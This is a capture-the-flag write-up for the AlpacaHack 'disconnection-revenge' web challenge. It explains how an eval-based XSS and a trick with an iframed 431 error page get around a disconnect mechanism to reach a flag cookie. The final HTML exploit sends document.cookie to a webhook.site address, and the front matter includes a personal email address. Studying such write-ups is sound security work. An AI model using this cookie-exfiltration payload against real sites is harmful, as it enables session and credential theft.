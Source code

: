 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4667W2CDCGG%2F20250524%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250524T044816Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEEUaCXVzLXdlc3QtMiJHMEUCIQDmr6AfNC0MIJpOSAHzM9i0iXfkZkyfy2Q78Uq7uil3RwIgJPTacCQuRl0VqPm6g6TWztekHOCORspXXFEsJRUDRtMqiAQI%2Ff%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDP%2FOGq3eSap9xrjDTircA8mmvQyKJKhEfx6ELijHNu5XD0nMB%2FDoQZ4d%2FLX9OyMxcnvptlWZX7nFIVofHf4J5VT5bCOA1%2FtepameSG%2FmfMtJPeB9yrUlZ%2FhczK7N8SeoC%2F5tI09JNk56DmhgQuarT%2F86d%2FgZDHUlgaJn5qfTphte%2FxhgdOsm3LzkAu%2F%2BfWc63E0LsOc5Gk7Gqh%2BtZiwdt5nIPi2beZUsrNyFOHznxitFPop9%2B9xsYa%2BCt8rxioiSAJWovtuK2tiJQKD2M9XYz0OT%2Bw0u570wBDkCrPGShZwnB3Mwcurc%2FWpvFuTmhlVmR7000cfPUWR7i4tegm9BffKpmuVRhY0%2BXNAU0s04JOi%2BhDGFloAzb8WE7LwE91HTKZ%2BADt7x2DskeloBHK1vSf0pif9PNkZlHEv5kK%2FRMFqPeWjlYR4Vac9g%2BnO6ndhmBbhmjxY8j%2BwnQSCRadWoiaet0C%2Fz4QQFLUPB7hYKXe%2BC2JwsaPZndXiO8ctRMkJrAn9Dj8VfZvKqXNAyOZ1qs%2BWBhfbNtPAfTOzIR8vUl2nedgKePV4yQoxgzZiIdWwosfSwR9O8ldaqNrCQiPX3IngtLAasDFnc6WhkBcygDDbTtT73OxszbPj7X0vcLmfDvGDmji8xy0WzO0K6MJ6SxcEGOqUBcckiEjHf78epVku%2FGBSpBtGbtskvwS%2FnawSmN5SPUrJN3TU5kPzcseU%2BiQj83EXha1e38qKDeWdhXHeyU6KEau5%2FPqY8sOGhL0NN8cV9Wla8SU4K2QHFSihd1cxODKM%2F6X9658g5Ur9oR5w7uMdW4qV%2BgYRrGgt084zhjHM0rHe2gRPmRzFQKYXVwfO5WFzDtEcXmbJd3uFqRBul1gVCLjxmvNrw\&X-Amz-Signature=0956de835ee1d0feddcfa2819ce38aa134ac1a6ed63de62f72a6cd0d3e89e29d\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
